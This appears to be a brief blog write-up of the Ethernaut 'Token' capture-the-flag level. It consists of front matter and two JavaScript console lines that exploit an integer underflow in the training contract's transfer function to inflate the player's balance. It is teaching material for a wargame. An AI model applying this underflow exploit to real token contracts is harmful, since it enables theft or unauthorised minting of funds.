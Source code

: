+++
title = 'Ethernaut Level 5 - Token'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Integer overflow to win'
tags = [ 'writeups' , 'blockchain' ]
+++

```js
await contract.transfer(contract.address, 21);
Number(await contract.balanceOf(player));
```
